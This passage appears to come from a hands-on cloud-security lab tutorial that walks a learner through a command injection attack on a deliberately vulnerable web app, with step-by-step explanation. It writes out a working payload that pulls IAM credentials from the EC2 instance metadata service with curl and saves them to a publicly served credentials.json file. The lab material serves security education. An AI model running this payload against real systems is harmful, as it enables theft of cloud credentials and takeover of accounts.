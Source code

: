 > 💡 **What does this code do?** This step demonstrates a real-world **command injection attack** that exploits a vulnerable input field in the web app. By entering malicious code instead of a simple username, attackers can execute unauthorized commands on the EC2 instance behind the application.
> 
> The payload fetches **AWS IAM credentials** from the EC2 metadata service and stores them in a public location.
> 
> 1. `CREDURL=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)`  
>     This sets up an address pointing to the **EC2 instance metadata service**—a local-only AWS service that contains sensitive info like IAM credentials. By injecting this into the app, you're instructing the EC2 instance to expose its own secrets.
>     
> 2. `TOKEN=\curl -X PUT "[http://169.254.169.254/latest/api/token](http://169.254.169.254/latest/api/token)" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`  
>     This line retrieves a **session token** to access the metadata service. The token acts as temporary authorization for the next call, simulating the app’s internal process.
>     
> 3. `CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN")`  
>     This powerful line chains multiple commands to request IAM credentials from the EC2 metadata service and format them. It impersonates legitimate access using the token, then fetches each credential path individually.
>     
> 4. `echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json`  
>     The output (the credentials) is saved into a publicly accessible file in the web server’s asset folder. **Anyone visiting the site can now access sensitive AWS credentials**, which is a massive security breach.
>     
> 
> ---
> 
> 🔗 Bonus: Want to understand this better? Visit the [EC2 Instance Metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html).

<br/>

- After the code is pasted, click "**Set Username**". Notice the username change from `\` to `[object Object]`.
- ![image](https://github.com/user-attachments/assets/9a8bb2f2-80fc-47b5-b18a-a426921cb9d0)

>💡 **Why is the username showing `[object Object]`?**
>
> - This is a classic result of a **command injection vulnerability**. In this scenario, you injected a script into the **Username** field. The web server didn’t sanitize the input and treated it as valid code to execute.
> 
> - Normally, the username should display a simple string. But instead, it’s showing **`[object Object]`**, which is how JavaScript represents a full object when it’s coerced into a string.
> 
> - In other words, your script created a new JavaScript object (the **IAM credentials**) and when the app tried to display it as text—it just showed `[object Object]`. The username is designed to just display some text, but it'll default to `[object Object]` instead if it's displaying an entire JavaScript object.
> 
> - This confirms that the injected code worked, and the server responded by storing the AWS credentials in a JSON object, as instructed. The JavaScript object is the **`credentials.json`** file that your malicious script told the server to create!
> 
> - 🧠 So to summarize, the script is telling the web server to go create a file called `credentials.json` and use that to store the IAM credentials of it (the web server) to the AWS environment that it belongs to... and once it has created that file, make that file public within the web app. The file should be somewhere... By seeing `[object Object]`, we see that as a confirmation that a file has at least been created somewhere. All we have to do now is find that file! 🔎

